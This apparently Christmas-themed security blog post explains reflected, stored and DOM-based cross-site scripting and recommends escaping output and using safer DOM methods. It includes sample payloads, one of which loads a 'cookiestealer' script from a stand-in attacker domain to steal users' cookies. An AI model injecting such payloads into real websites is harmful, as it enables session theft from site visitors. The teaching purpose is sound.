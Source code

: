 ```yaml
---
title: Cross Site Scripting (XSS)
lead: At the beginning, web pages were very static. They were written in HTML, and the web browser had one job, to render the HTML to a page filled with text, images and links. After a few years, the developers wanted more, and JavaScript got introduced.Together with JavaScript came a new breed of vulnerabilities, where the attackers could exploit the possibility to run code in browsers, this was called Cross Site Scripting or XSS.
author: Stian Fredrikstad
links:
  - title: CSRF
    link: https://security.christmas/2018/4
    body: #4 about Cross Site Request Forgery
  - title: Injections
    link: https://security.christmas/2018/8
    body: #8 about Injections
  - title: OWASP XSS
    link: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
    body: OWASP XSS (Cross Site Scripting) Prevention Cheat Sheet
---
```


JavaScript has a lot of possibilities, and a lot of responsibility in modern web applications. First of all, JavaScript can see and read (almost) everything that is sent to the browser, e.g. all the countermeasures we wrote about [CSRF](https://security.christmas/2018/4) some days ago, are no longer valid. This is because JavaScript can read everything, even if it is hidden on the page, send and read as the user.

In addition, JavaScript can read secrets hidden under the domain, like the session cookie. There are countermeasures against it, because JavaScript does not need to explicitly set the cookie on the requests, this is done by the browser automatically. By setting the flag `HttpOnly`, a cookie can never be read by JavaScript, only sent as a header on http requests. But it is a nice example of what we can do, so let us use it.

An XSS can happen in many circumstances, but the main reason is that a user can inject unescaped HTML in a website.This is similar to what we discussed in the post about [Injections](https://security.christmas/2018/8), and in HTML (or XML), the `<`, `>` and `"` are very important for the markup, there are more, but let us start with those. An escaped version of `<` is `&lt;` and `>` is `&gt;` and `"` is `&quot;`, short for "less than, "greater than" and quote if you want to remember those.

### Reflected XSS

If we imagine we are Google. We have a search input field named `q`, where the query is inserted, and the query is put as a get parameter in the url. If we insert `santa`, and click search, the url will be `https://www.google.com?q=santa`. And the input field will render like `<input type="text" name="q" value="santa" />`. If the rendering of the `value` in the input field is not escaped. An attack could be to insert

```html
santa" /><script src="https://www.santastealscookies.com/cookiestealer"></script>
```

This will render the input field like

```html
<input
  type="text"
  name="q"
  value="santa"
/><script src="https://www.santastealscookies.com/cookiestealer"></script
>" />
```

As we see, `" />` closes the input field and let the attacker continue to write HTML. Which in this case let santa steal all the cookies from the users who click on the link with the malicious input.

This is called "Reflected XSS", because the input from the user is reflected on the website But this does also limit the reach of such an attack, because the user often needs to click on something before it works.

### Stored XSS

We also have the "Stored XSS", which is quite similar to "reflected XSS", but here the malicious input is stored on the server, and could possibly affect all users. If Santa creates a blog where he writes about his Christmas preparations, he would likely create a comment section for input from his fans. The comments are printed out in the bottom of each blog post, but Santa forgot to escape the comments on the web server. If the Grinch finds this, and creates a comment with the input:

```html
<script>
  alert('The Santa does not exist');
</script>
```

All the readers of that blog post are met by a popup with the text "Santa does not" exist.

As we see in this last example, the XSS does not need to happen in an attribute. It can happen all places where text is rendered. That is why the web server should always escape everything, except those places you actually write HTML-code.

### DOM based XSS

The last type of XSS is "DOM based XSS". The main difference between this and the other two, is that it all happens in JavaScript. JavaScript has methods like `innerHTML`, which can be used to fill another element with text, but it does also allow HTML to be written.

As a simple example, we have a `div` with the id `website`, where we want to display the url of the current website. Code to fill this could look like:

```html
<script>
  document.getElementById('website').inneHTML = document.baseURI;
</script>
```

An example of a malicious url would be `https://www.santaisbad.com/#<script>alert("Santa is good");</script>`. And we will get the well-known alert box. But the most important is that the developer does not even know that the website is being exploited. The web browser does not send the `#`, and everything after it to the server, which makes it difficult discover.

In addition to escaping what we render, to get rid of "DOM based XSS", we need to go through the code and use the correct methods (or even delete vulnerable code where this can happen, like `eval`). Instead of using innerHTML, we should have used innerText and so on.

As a final reminder, escape everything, and take care when rendering mixes of text and HTML.

In many frameworks, both server and client side, it is the default behaviour to escape output, but you need to check this to be sure.

